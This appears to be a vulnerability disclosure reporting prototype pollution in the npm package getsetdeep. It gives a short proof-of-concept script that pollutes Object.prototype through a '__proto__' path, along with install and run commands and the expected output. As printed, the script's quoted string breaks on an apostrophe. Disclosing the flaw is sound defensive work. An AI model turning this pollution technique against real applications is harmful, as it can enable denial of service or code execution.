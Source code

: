 # Description

`getsetdeep` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var getsetdeep = require("getsetdeep")
const obj = {}
console.log("Before : " + {}.polluted);
getsetdeep.setDeep(obj, '__proto__.polluted', 'Yes! It's Polluted')
console.log("After : " + {}.polluted);
```
2. Execute the following commands in another terminal:

```
npm i getsetdeep # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! It's Polluted
```
